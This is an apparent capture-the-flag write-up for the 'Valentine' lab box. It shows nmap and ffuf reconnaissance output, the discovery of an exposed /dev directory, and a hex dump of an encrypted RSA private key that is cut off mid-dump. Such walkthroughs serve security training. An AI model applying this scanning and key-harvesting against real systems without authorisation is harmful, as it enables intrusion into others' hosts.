







# Valentine - Easy Box

## Nmap Scan Results

```
sudo nmap -p- -T4 -sVC -oA nmap/valentine -vvv 10.129.232.136
Starting Nmap 7.95 ( https://nmap.org ) at 2026-11-04 15:13 EST
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:13
Completed NSE at 15:13, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:13
Completed NSE at 15:13, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:13
Completed NSE at 15:13, 0.00s elapsed
Initiating Ping Scan at 15:13
Scanning 10.129.232.136 [4 ports]
Completed Ping Scan at 15:13, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:13
Completed Parallel DNS resolution of 1 host. at 15:13, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 15:13
Scanning 10.129.232.136 [65535 ports]
Discovered open port 22/tcp on 10.129.232.136
Discovered open port 443/tcp on 10.129.232.136
Discovered open port 80/tcp on 10.129.232.136
Completed SYN Stealth Scan at 15:14, 13.16s elapsed (65535 total ports)
Initiating Service scan at 15:14
Scanning 3 services on 10.129.232.136
Completed Service scan at 15:14, 12.28s elapsed (3 services on 1 host)
NSE: Script scanning 10.129.232.136.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:14
Completed NSE at 15:14, 2.54s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:14
Completed NSE at 15:14, 0.67s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:14
Completed NSE at 15:14, 0.00s elapsed
Nmap scan report for 10.129.232.136
Host is up, received echo-reply ttl 63 (0.015s latency).
Scanned at 2026-11-04 15:13:53 EST for 28s
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAIMeSqrDdAOhxf7P1IDtdRqun0pO9pmUi+474hX6LHkDgC9dzcvEGyMB/cuuCCjfXn6QDd1n16dSE2zeKKjYT9RVCXJqfYvz/ROm82p0JasEdg1z6QHTeAv70XX6cVQAjAMQoUUdF7WWKWjQuAknb4uowunpQ0yGvy72rbFkSTmlAAAAFQDwWVA5vTpfj5pUCUNFyvnhy3TdcQAAAIBFqVHk74mIT3PWKSpWcZvllKCGg5rGCCE5B3jRWEbRo8CPRkwyPdi/hSaoiQYhvCIkA2CWFuAeedsZE6zMFVFVSsHxeMe55aCQclfMH4iuUZWrg0y5QREuRbGFM6DATJJFkg+PXG/OsLsba/BP8UfcuPM+WGWKxjuaoJt6jeD8iQAAAIBg9rgf8NoRfGqzi+3ndUCo9/m+T18pn+ORbCKdFGq8Ecs4QLeaXPMRIpCol11n6va090EISDPetHcaMaMcYOsFqO841K0O90BV8DhyU4JYBjcpslT+A2X+ahj2QJVGqZJSlusNAQ9vplWxofFONa+IUSGl1UsGjY0QGsA5l5ohfQ==
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRkMHjbGnQ7uoYx7HPJoW9Up+q0NriI5g5xAs1+0gYBVtBqPxi86gPtXbMHGSrpTiX854nsOPWA8UgfBOSZ2TgWeFvmcnRfUKJG9GR8sdIUvhKxq6ZOtUePereKr0bvFwMSl8Qtmo+KcRWvuxKS64RgUem2TVIWqStLJoPxt8iDPPM7929EoovpooSjwPfqvEhRMtq+KKlqU6PrJD6HshGdjLjABYY1ljfKakgBfWic+Y0KWKa9qdeBF09S7WlaUBWJ5SutKlNSwcRBBVbL4ZFcHijdlXCvfVwSVMkiqY7x4V4McsNpIzHyysZUADy8A6tbfSgopaeR2UN4QRgM1dX
|   256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+pCNI5Xv8P96CmyDi/EIvyL0LVZY2xAUJcA0G9rFdLJnIhjvmYuxoCQDsYl+LEiKQee5RRw9d+lgH3Fm5O9XI=
80/tcp  open  http     syn-ack ttl 63 Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
443/tcp open  ssl/http syn-ack ttl 63 Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
|_ssl-date: 2026-11-04T20:14:21+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Issuer: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2018-02-06T00:45:25
| Not valid after:  2019-02-06T00:45:25
| MD5:   a413:c4f0:b145:2154:fb54:b2de:c7a9:809d
| SHA-1: 2303:80da:60e7:bde7:2ba6:76dd:5214:3c3c:6f53:01b1
| -----BEGIN CERTIFICATE-----
| MIIDZzCCAk+gAwIBAgIJAIXsbfXFhLHyMA0GCSqGSIb3DQEBBQUAMEoxCzAJBgNV
| BAYTAlVTMQswCQYDVQQIDAJGTDEWMBQGA1UECgwNdmFsZW50aW5lLmh0YjEWMBQG
| A1UEAwwNdmFsZW50aW5lLmh0YjAeFw0xODAyMDYwMDQ1MjVaFw0xOTAyMDYwMDQ1
| MjVaMEoxCzAJBgNVBAYTAlVTMQswCQYDVQQIDAJGTDEWMBQGA1UECgwNdmFsZW50
| aW5lLmh0YjEWMBQGA1UEAwwNdmFsZW50aW5lLmh0YjCCASIwDQYJKoZIhvcNAQEB
| BQADggEPADCCAQoCggEBAMMoF6z4GSpB0oo/znkcGfT7SPrTLzNrb8ic+aO/GWao
| oY35ImIO4Z5FUB9ZL6y6lc+vI6pUyWRADyWoxd3LxByHDNJzEi53ds+JSPs5SuH1
| PUDDtZqCaPaNjLJNP08DCcC6rXRdU2SwV2pEDx+39vsFiK6ywcrepvvFZndGKXVg
| 0K+R3VkwOguPhSHlXcgiHFbqei8NJ1zip9YuVUYXhyLVG2ZiJYX6CRw4bRsUnql6
| 4DFNQybOsJHm0JtI2M9PefmvEkTUZeT/d0dWhU076a3bTestKZf4WpqZw60XGmxz
| pAQf5dWOqMemIK6K4FC48bLSSN59s4kNtuhtx6OCXpcCAwEAAaNQME4wHQYDVR0O
| BBYEFNzWWyJscuATyFWyfLR2Yev1T435MB8GA1UdIwQYMBaAFNzWWyJscuATyFWy
| fLR2Yev1T435MAwGA1UdEwQFMAMBAf8wDQYJKoZIhvcNAQEFBQADggEBACc3NjB7
| cHUXjTxwdeFxkY0EFYPPy3EiHftGVLpiczrEQ7NiHTLGQ6apvxdlShBBhKWRaU+N
| XGhsDkvBLUWJ3DSWwWM4pG9qmWPT241OCaaiIkVT4KcjRIc+x+91GWYNQvvdnFLO
| 5CfrRGkFHwJT1E6vGXJejx6nhTmis88ByQ9g9D2NgcHENfQPAW1by7ONkqiXtV3S
| q56X7q0yLQdSTe63dEzK8eSTN1KWUXDoNRfAYfHttJqKg2OUqUDVWkNzmUiIe4sP
| csAwIHShdX+Jd8E5oty5C07FJrzVtW+Yf4h8UHKLuJ4E8BYbkxkc5vDcXnKByeJa
| gRSFfyZx/VqBh9c=
|_-----END CERTIFICATE-----
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 0s

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:14
Completed NSE at 15:14, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:14
Completed NSE at 15:14, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:14
Completed NSE at 15:14, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.19 seconds
           Raw packets sent: 66578 (2.929MB) | Rcvd: 66693 (2.693MB)
```

The nmap scan discovered the domain name for the web application, `valentine.htb`. So, I went ahead & added it to my `/etc/hosts` file.

```
cat /etc/hosts | grep 'valentine.htb'
10.129.232.136  valentine.htb
```

## TCP Port 80 Enumeration

Since the nmap scan discovered the http port (80), I went to take a look at the web application.


The home page of the web application contained just an image, nothing much. However, there was another port which nmap discovered for the https service. I decided to take a look there as well.


Turns out the web page for both, the http service & the https service, were the same. I decided to enumerate the http service first, beginning my enumeration with `FFUF` for directory bruteforce. But before I do that, I checked the `Wappalyzer` to see if it finds anything interesting about the web application.



`Wappalyzer` revealed that the web application is using `PHP` language. So, I decided to bruteforce for the `.php` extensions in my directory bruteforce, along with `.txt` extension.

```
ffuf -u http://valentine.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -c -e .php,.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://valentine.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Extensions       : .php .txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

index                   [Status: 200, Size: 38, Words: 2, Lines: 2, Duration: 17ms]
                        [Status: 200, Size: 38, Words: 2, Lines: 2, Duration: 3962ms]
index.php               [Status: 200, Size: 38, Words: 2, Lines: 2, Duration: 3969ms]
dev                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 26ms]
encode.php              [Status: 200, Size: 554, Words: 73, Lines: 28, Duration: 19ms]
encode                  [Status: 200, Size: 554, Words: 73, Lines: 28, Duration: 20ms]
decode                  [Status: 200, Size: 552, Words: 73, Lines: 26, Duration: 13ms]
decode.php              [Status: 200, Size: 552, Words: 73, Lines: 26, Duration: 18ms]
omg                     [Status: 200, Size: 153356, Words: 627, Lines: 620, Duration: 15ms]
                        [Status: 200, Size: 38, Words: 2, Lines: 2, Duration: 15ms]
server-status           [Status: 403, Size: 294, Words: 21, Lines: 11, Duration: 16ms]
:: Progress: [661641/661641] :: Job [1/1] :: 2380 req/sec :: Duration: [0:06:17] :: Errors: 0 ::
```

The directory bruteforce scan revealed that there is a `/dev/` endpoint on the web application, which is interesting cause the name of the directory suggests that the files (or web pages) under the directory are meant for the developers to access but is exposed to the public for some reasons. I went ahead to take a look at the endpoint.



I found 2 files on the `/dev/` enpoint, `hype_key` & `notes.txt`. I decided to download the files on my virtual machine so that I can inspect them.

```
wget http://valentine.htb/dev/hype_key
--2026-11-04 15:29:22--  http://valentine.htb/dev/hype_key
Resolving valentine.htb (valentine.htb)... 10.129.232.136
Connecting to valentine.htb (valentine.htb)|10.129.232.136|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5383 (5.3K)
Saving to: ‘hype_key’

hype_key                          100%[=============================================================>]   5.26K  --.-KB/s    in 0s      

2026-11-04 15:29:22 (625 MB/s) - ‘hype_key’ saved [5383/5383]

wget http://valentine.htb/dev/notes.txt
--2026-11-04 15:29:41--  http://valentine.htb/dev/notes.txt
Resolving valentine.htb (valentine.htb)... 10.129.232.136
Connecting to valentine.htb (valentine.htb)|10.129.232.136|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 227 [text/plain]
Saving to: ‘notes.txt’

notes.txt                         100%[=============================================================>]     227  --.-KB/s    in 0s      

2026-11-04 15:29:41 (57.3 MB/s) - ‘notes.txt’ saved [227/227]


```

Viewing the contents of the file `notes.txt`, I noticed that the developers are not supposed to use encoder/decoder until they have made sure that both encoding & decoding is done only on client-side. And the notes also contained a point for fixing encoder/decoder before going live.

```
cat notes.txt 
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```

However, the directory bruteforce scan discovered the presence & availability for both, `encode.php` & `decode.php` for the public. But before I take a look at those endpoints, I also checked the contens of the file `hype_key`, which turned out to be a `hex` key.

```
cat hype_key
2d 2d 2d 2d 2d 42 45 47 49 4e 20 52 53 41 20 50 52 49 56 41 54 45 20 4b 45 59 2d 2d 2d 2d 2d 0d 0a 50 72 6f 63 2d 54 79 70 65 3a 20 34 2c 45 4e 43 52 59 50 54 45 44 0d 0a 44 45 4b 2d 49 6e 66 6f 3a 20 41 45 53 2d 31 32 38 2d 43 42 43 2c 41 45 42 38 38 43 31 34 30 46 36 39 42 46 32 30 37 34 37 38 38 44 45 32 34 41 45 34 38 44 34 36 0d 0a 0d 0a 44 62 50 72 4f 37 38 6b 65 67 4e 75 6b 31 44 41 71 6c 41 4e 35 6a 62 6a 58 76 30 50 50 73 6f 67 33 6a 64 62 4d 46 53 38 69 45 39 70 33 55 4f 4c 30 6c 46 30 78 66 37 50 7a 6d 72 6b 44 61 38 52 0d 0a 35 79 2f 62 34 36 2b 39 6e 45 70 43 4d 66 54 50 68 4e 75 4a 52 63 57 32 55 32 67 4a 63 4f 46 48 2b 39 52 4a 44 42 43 35 55 4a 4d 55 53 31 2f 67 6a 42 2f 37 2f 4d 79 30 30 4d 77 78 2b 61 49 36 0d 0a 30 45 49 30 53 62 4f 59 55 41 56 31 57 34 45 56 37 6d 39 36 51 73 5a 6a 72 77 4a 76 6e 6a 56 61 66 6d 36 56 73 4b 61 54 50 42 48 70 75 67 63 41 53 76 4d 71 7a 37 36 57 36 61 62 52 5a 65 58 69 0d 0a 45 62 77 36 36 68 6a 46 6d 41 75 34 41 7a 71 63 4d 2f 6b 69 67 4e 52 46 50 59 75 4e 69 58 72 58 73 31 77 2f 64 65 4c 43 71 43 4a 2b 45 61 31 54 38 7a 6c 61 73 36 66 63 6d 68 4d 38 41 2b 38 50 0d 0a 4f 58 42 4b 4e 65 36 6c 31 37 68 4b 61 54 36 77 46 6e 70 35 65 58 4f 61 55 49 48 76 48 6e 76 4f 36 53 63 48 56 57 52 72 5a 37 30 66 63 70 63 70 69 6d 4c 31 77 31 33 54 67 64 64 32 41 69 47 64 0d 0a 70 48 4c 4a 70 59 55 49 49 35 50 75 4f 36 78 2b 4c 53 38 6e 31 72 2f 47 57 4d 71 53 4f 45 69 6d 4e 52 44 31 6a 2f 35 39 2f 34 75 33 52 4f 72 54 43 4b 65 6f 39 44 73 54 52 71 73 32 6b 31 53 48 0d 0a 51 64 57 77 46 77 61 58 62 59 79 54 31 75 78 41 4d 53 6c 35 48 71 39 4f 44 35 48 4a 38 47 30 52 36 4a 49 35 52 76 43 4e 55 51 6a 77 78 30 46 49 54 6a 6a 4d 6a 6e 4c 49 70 78 6a 76 66 71 2b 45 0d 0a 70 30 67 44 30 55 63 79 6c 4b 6d 36 72 43 5a 71 61 63 77 6e 53 64 64 48 57 38 57 33 4c 78 4a 6d 43 78 64 78 57 35 6c 74 35 64 50 6a 41 6b 42 59 52 55 6e 6c 39 31 45 53 43 69 44 34 5a 2b 75 43 0d 0a 4f 6c 36 6a 4c 46 44 32 6b 61 4f 4c 66 75 79 65 65 30 66 59 43 62 37 47 54 71 4f 65 37 45 6d 4d 42 33 66 47 49 77 53 64 57 38 4f 43 38 4e 57 54 6b 77 70 6a 63 30 45 4c 62 6c 55 61 36 75 6c 4f 0d 0a 74 39 67 72 53 6f 73 52 54 43 73 5a 64 31 34 4f 50 74 73 34 62 4c 73 70 4b 78 4d 4d 4f 73 67 6e 4b 6c 6f 58 76 6e 6c 50 4f 53 77 53 70 57 79 39 57 70 36 79 38 58 58 38 2b 46 34 30 72 78 6c 35 0d 0a 58 71 68 44 55 42 68 79 6b 31 43 33 59 50 4f 69 44 75 50 4f 6e 4d 58 61 49 70 65 31 64 67 62 30 4e 64 44 31 4d 39 5a 51 53 4e 55 4c 77 31 44 48 43 47 50 50 34 4a 53 53 78 58 37 42 57 64 44 4b 0d 0a 61 41 6e 57 4a 76 46 67 6c 41 34 6f 46 42 42 56 41 38 75 41 50 4d 66 56 32 58 46 51 6e 6a 77 55 54 35 62 50 4c 43 36 35 74 46 73 74 6f 52 74 54 5a 31 75 53 72 75 61 69 32 37 6b 78 54 6e 4c 51 0d 0a 2b 77 51 38 37 6c 4d 61 64 64 73 31 47 51 4e 65 47 73 4b 53 66 38 52 2f 72 73 52 4b 65 65 4b 63 69 6c 44 65 50 43 6a 65 61 4c 71 74 71 78 6e 68 4e 6f 46 74 67 30 4d 78 74 36 72 32 67 62 31 45 0d 0a 41 6c 6f 51 36 6a 67 35 54 62 6a 35 4a 37 71 75 59 58 5a 50 79 6c 42 6c 6a 4e 70 39 47 56 70 69 6e 50 63 33 4b 70 48 74 74 76 67 62 70 74 66 69 57 45 45 73 5a 59 6e 35 79 5a 50 68 55 72 39 51 0d 0a 72 30 38 70 6b 4f 78 41 72 58 45 32 64 6a 37 65 58 2b 62 71 36 35 36 33 35 4f 4a 36 54 71 48 62 41 6c 54 51 31 52 73 39 50 75 6c 72 53 37 4b 34 53 4c 58 37 6e 59 38 39 2f 52 5a 35 6f 53 51 65 0d 0a 32 56 57 52 79 54 5a 31 46 66 6e 67 4a 53 73 76 39 2b 4d 66 76 7a 33 34 31 6c 62 7a 4f 49 57 6d 6b 37 57 66 45 63 57 63 48 63 31 36 6e 39 56 30 49 62 53 4e 41 4c 6e 6a 54 68 76 45 63 50 6b 79 0d 0a 65 31 42 73 66 53 62 73 66 39 46 67 75 55 5a 6b 67 48 41 6e 6e 66 52 4b 6b 47 56 47 31 4f 56 79 75 77 63 2f 4c 56 6a 6d 62 68 5a 7a 4b 77 4c 68 61 5a 52 4e 64 38 48 45 4d 38 36 66 4e 6f 6a 50 0d 0a 30 39 6e 56 6a 54 61 59 74 57 55 58 6b 30 53 69 31 57 30 32 77 62 75 31 4e 7a 4c 2b 31 54 67 39 49 70 4e 79 49 53 46 43 46 59 6a 53 71 69 79 47 2b 57 55 37 49 77 4b 33 59 55 35 6b 70 33 43 43 0d 0a 64 59 53 63 7a 36 33 51 32 70 51 61 66 78 66 53 62 75 76 34 43 4d 6e 4e 70 64 69 72 56 4b 45 6f 35 6e 52 52 66 4b 2f 69 61 4c 33 58 31 52 33 44 78 56 38 65 53 59 46 4b 46 4c 36 70 71 70 75 58 0d 0a 63 59 35 59 5a 4a 47 41 70 2b 4a 78 73 6e 49 51 39 43 46 79 78 49 74 39 32 66 72 58 7a 6e 73 6a 68 6c 59 61 38 73 76 62 56 4e 4e 66 6b 2f 39 66 79 58 36 6f 70 32 34 72 4c 32 44 79 45 53 70 59 0d 0a 70 6e 73 75 6b 42 43 46 42 6b 5a 48 57 4e 4e 79 65 4e 37 62 35 47 68 54 56 43 6f 64 48 68 7a 48 56 46 65 68 54 75 42 72 70 2b 56 75 50 71 61 71 44 76 4d 43 56 65 31 44 5a 43 62 34 4d 6a 41 6a 0d 0a 4d 73 6c 66 2b 39 78 4b 2b 54 58 45 4c 33 69 63 6d 49 4f 42 52 64 50 79 77 36 65 2f 4a 6c 51 6c 56 52 6c 6d 53 68 46 70 49 38 65 62 2f 38 56 73 54 79 4a 53 65 2b 62 38 35 33 7a 75 56 32 71 4c 0d 0a 73 75 4c 61 42 4d 78 59 4b 6d 33 2b 7a 45 44 